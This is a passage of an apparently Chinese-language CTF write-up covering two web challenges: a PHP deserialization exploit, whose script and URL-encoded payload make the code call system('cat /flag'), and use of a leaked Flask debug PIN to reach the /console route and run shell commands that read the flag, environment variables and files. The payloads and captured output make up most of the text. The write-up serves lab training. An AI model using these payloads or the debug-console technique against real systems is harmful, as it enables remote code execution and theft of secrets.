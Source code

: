 在B类的`__invoke()`方法里，存在动态函数调用`$s($c);`

本地调试一下，可以执行命令

```php
<?php
$a = 'system';
$b = 'time';
# The current time is:  0:56:34.09
$a($b);
?>
```

把属性改成public生成payload，手动修改private属性的修饰符`%00`，以及private属性的长度

```php
<?php

class A {
    public $evil;
    public $a;
}

class B {
    public $b;
}
$payload = new A();
$payload -> a = new B();
$payload -> evil = "cat /flag";
$payload -> a -> b = "system";
echo serialize($payload);
# ?data=O:1:%22A%22:2:{s:7:%22%00A%00evil%22;s:3:%22env%22;s:4:%22%00A%00a%22;O:1:%22B%22:1:{s:4:%22%00B%00b%22;s:6:%22system%22;}}
?>
```

![16](https://the0n3.top/medias/moectf/16.png)

## 垫刀之路07: 泄漏的密码

第一次遇到白给的flask pin码，爱了爱了。拿pin码到`/console`路由的控制台直接拿python shell

::: details
```python
[console ready]
>>> import os
>>> os.popen('cat /flag').read()
'远在天边，近在眼前啊'
>>> os.popen('env').read()
'KUBERNETES_SERVICE_PORT=443\nKUBERNETES_PORT=tcp://10.43.0.1:443\nHOSTNAME=ret2shell-119-11100\nPYTHON_PIP_VERSION=23.0.1\nSHLVL=2\nHOME=/root\nGPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D\nWERKZEUG_SERVER_FD=4\nPYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.py\nWERKZEUG_RUN_MAIN=true\nKUBERNETES_PORT_443_TCP_ADDR=10.43.0.1\nPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nKUBERNETES_PORT_443_TCP_PORT=443\nKUBERNETES_PORT_443_TCP_PROTO=tcp\nLANG=C.UTF-8\nPYTHON_VERSION=3.10.14\nPYTHON_SETUPTOOLS_VERSION=65.5.1\nKUBERNETES_SERVICE_PORT_HTTPS=443\nKUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443\nKUBERNETES_SERVICE_HOST=10.43.0.1\nPWD=/app\nPYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118\nFLAG=fake_flag\n'  
>>> os.popen('ls /').read();
'app\nbin\ndev\netc\nflag\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n'  
>>> os.popen('ls').read();
'__pycache__\napp.py\nflag\ngetPIN.py\nstatic\ntemplates\n'
>>> os.popen('cat *').read();
```